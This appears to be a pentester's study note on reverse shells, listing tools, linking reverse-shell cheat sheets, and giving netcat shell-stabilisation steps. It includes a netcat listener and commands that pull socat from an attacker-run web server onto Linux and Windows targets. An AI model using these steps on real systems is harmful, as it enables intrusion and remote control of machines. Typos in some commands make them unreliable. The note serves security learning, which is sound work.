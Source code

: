 - Netcat
- socat
- msfvenom


- [Payload All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
- Pentest Monkey [Reverse Sheel Cheatsheet](https://web.archive.org/web/20200901140719/http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)


### Netcat shell stabilization
- Technique 1: Python (Linux only)
1. python3 -c 'import pty;pty.spawn("/bin/bash")'
2. export TERM=xterm -- this will give us access to commands such as clear
3. background the shell (ctrl + z)
  - stty raw -echo; fg

        - if the shell dies - no iput will be visible on your own, since echo is disabled - ***reset*** - and press enter

- Technique 2: rlwrap (not installed on kali by default)
1. sudo apt install rlwrap
  - rlwrap nc -lvnp <p>
  - stty raw -echo: fg

- Technique 3: Socat (linux targets only)
1. sudo python3 -m http.server 80
2. wget <local-ip>/socat -O /tmp/socat
3. Invoke-WebRequest -uri <LOCAL-IP>/socat.exe -outfile C:\\Windows\temp\socat.exe

------
With any of the shell use the below to adjust the tty size

- stty - a
- stty rows <number>
- stty cols <number>

